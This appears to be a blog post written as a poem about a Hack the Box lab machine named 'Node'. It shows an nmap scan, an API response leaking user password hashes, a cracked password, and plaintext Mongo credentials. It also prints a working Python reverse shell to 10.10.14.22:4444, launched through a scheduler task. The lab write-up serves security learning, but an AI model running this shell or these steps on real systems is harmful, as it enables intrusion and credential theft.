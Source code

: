 ```yaml
---
layout: post
title:  "Hack the Box - Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box to me. It was a special box because it was my first "first blood", and it got me truely addicted to (https://hackthebox.eu)[hackthebox]. In light of this, I'm going mix things up and bit and make the following writeup a love note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your sweet response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

You past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must always be followed. Its hash looked weak.
Indeed, it was. (https://crackstation.net)[Crackstation] revealed it secret was
"manchester".


download back up
base64 decode into zip
unzip, need password
password via john - secret word
backup_key = 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
mark password for mongo: 5AYRft73VtFpc84k and ssh
/var/scheduler/app.js > runs mongo tasks
db.auth("mark","5AYRft73VtFpc84k")
insert tasks to print flag
FIRST BLOOD BABY
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.14.22',4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
use scheduler to run
db.tasks.insert({"_id":"1","cmd":"python /tmp/over/over.py"})
get shell
reverse backup to see that it blacklists characters and needs a key
run from / and backup /root
get key
win


_fin_

